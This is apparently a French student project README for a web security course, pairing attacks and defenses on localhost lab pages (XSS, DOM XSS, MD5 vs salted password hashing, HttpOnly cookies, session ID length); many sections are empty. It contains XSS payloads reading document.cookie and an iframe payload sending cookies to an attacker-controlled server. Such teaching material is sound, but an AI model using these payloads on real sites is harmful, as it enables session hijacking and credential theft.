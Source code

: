 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
<br>
## XSS Rule 0
Cette règle déconseille d’utiliser des données qui peuvent être modifiées dans des balises pouvant exécuter du code.
Le programme vulnérable contient une balise script qui récupère la valeur associée à un paramètre. Avec cette valeur, il est possible de modifier la syntaxe du script pour exécuter un autre code.<br>
**Attaque :**<br>
Si on modifie la valeur du paramètre name dans l’URL il est possible d’exécuter du code si la balise php est contenue dans une balise script.
Par exemple, si on remplace la valeur du paramètre name par alert(document.cookie) cela va ouvrir une boîte d’alerte et afficher le cookie.
http://localhost/was-grp11/xss_0/atk_xss_0.php?name=alert(document.cookie)<br>
**Defense :**<br/>
Pour éviter cela, si on doit ajouter des données “untrusted” alors il est nécessaire de ne pas utiliser des balises pouvant exécuter du code comme les balises script. 
C’est pour cela que dans la défense nous avons mis la balise php en dehors de la balise script. Le programme de défense n’exécute plus le code mis dans le paramètre name l’URL http://localhost/was-grp11/xss_0/def_xss_0.php?name=alert(document.cookie) <br>
<br>
## XSS Rule 1 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 2 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 3 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 4 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 5 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 6 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 7 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 8 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
http://localhost:8080/dom_xss_1/def_dom_xss_1.html?button=<script>alert(document.cookie)</script><br/>
<br/>
## SQL Injection <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `sudo mysql < init_db_password.sql`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:8080/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`$salt = bin2hex(openssl_random_pseudo_bytes(22));`<br/>
`$hash = crypt($_GET['password'], "$2a$12$".$salt);`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
http://localhost:8080/password/def_password.php?password=admin123<br/>
<br/>
## Session HttpOnly
Il faut lancer un serveur sur le port de votre choix (8080) dans le dossier *was-grp11/* et un autre sur le port 8089 (vous pouvez en choisir un autre mais il faut modifier le fichier vulnérable) dans le dossier *bad_session/*.<br/>
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>`<br/>
http://localhost:8080/session/vulnerable_session_httponly.php <br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
http://localhost:8080/session/def_session_httponly.php <br/>
![image](https://user-images.githubusercontent.com/54988405/137313105-bded2987-aeda-411d-84d9-6041ad80afa8.png)
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
## XML External Entity <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Session Max-Age <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>

